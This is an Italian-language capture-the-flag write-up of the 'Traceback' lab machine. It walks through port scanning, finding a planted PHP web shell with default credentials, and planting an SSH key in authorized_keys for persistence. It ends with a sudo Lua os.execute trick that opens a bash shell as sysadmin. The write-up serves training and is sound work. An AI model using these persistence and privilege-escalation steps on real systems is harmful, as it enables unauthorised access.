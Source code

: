 ## Information Gathering

Sembrerebbe una macchina molto semplice. Comincio con una scan basilare:

```
nmap -Pn -T5 -A traceback.htb
```

Scopro dunque un servizio particolare aperto sulla porta 50002:

```
Nmap scan report for traceback.htb (10.10.10.181)
Host is up (0.42s latency).
Not shown: 997 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
50002/tcp filtered iiimsf

Nmap done: 1 IP address (1 host up) scanned in 107.51 seconds
```

Visito il servizio in ascolto sulla porta 80 e scopro una pagina web che cita:

> This site has been owned
> I have left a backdoor for all the net. FREE INTERNETZZZ
> - Xh4H - 

Ne leggo il codice sorgente e scopro l'hint:

> Some of the best web shells that you might need ;)

A questo punto capisco che c'è una webshell nascosta all'interno dell'host. Quello che faccio è generarmi un listato di tutte le webshell più comuni partendo da questa [repository](https://github.com/JohnTroony/php-webshells/tree/master/Collection), quindi estraendo tutti i nomi delle webshell grazie ad uno scriptino in python:

```
import requests
from bs4 import BeautifulSoup

req = requests.get("https://github.com/JohnTroony/php-webshells/tree/master/Collection")
soup = BeautifulSoup(req.txt, features="html.parser")

for tag2 in soup.findAll("a", {"class": "js-navigation-open"}):
    print tag2.text
```

Generata la wordlist la do in pasto a dirbuster e scopro effettivamente la presenza del tab "smevk.php".

## WebExploitation

Visito la pagina e trovo un form di login. Provo banalmente con le creds "admin:admin" ed entro. 

Leggo innanzitutto il file note.txt e mi da un indizio, mi dice che devo sfruttare uno scriptino "lua" che è stato lasciato in giro. Dentro la home folder trovo le cartelle di due utenti: webadmin e sysadmin. Io sono webadmin e, ovviamente, il flag è dentro sysadmin. Ma non ho i privilegi per aprirlo. 

_Avrei potuto eseguire tutto a mano tramite webshell ma per comodità, avendo rintracciato il file "authorized_keys" dentro .ssh, mi apro una connessione via ssh_

Quindi genero una coppia di rsa_keys con *rsa-keygen*, carico la chiave pubblica dentro al file sopracitato dando da webshell il comando:

```
echo "pub_key[...]" > authorized_keys
```

Quindi entro in ssh da locale con: 

```
ssh -i id-rsa webadmin@traceback.htb
```

Inserendo quindi la passphrase (che conoscevo) che avevo inserito in fase di creazione della coppia di chiavi. 

## Privilege Escalation

### Sysadmin

Ritornando allo step precedente, devo effettuare un piccolo privilege escalation da *Webadmin* a *Sysadmin*. La prima cosa che faccio è un:

```
sudo -l
cat .bash_histoy
```

Scopro così che l'utente *webadmin* può eseguire in sudo senza password a nome di *sysadmin* lo script in _home/sysadmin/*luvit*_ . Incrociando questo, con quanto scoperto su GTFOBins in merito agli script LUA, riesco ad aprirmi una shell con l'utenza di Sysadmin:

```
echo "os.execute("/bin/bash -i")" > /home/webadmin/privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
```
Ed ecco aperta una shell con l'utenza _SysAdmin_ e prelevo lo user.txt flag! 
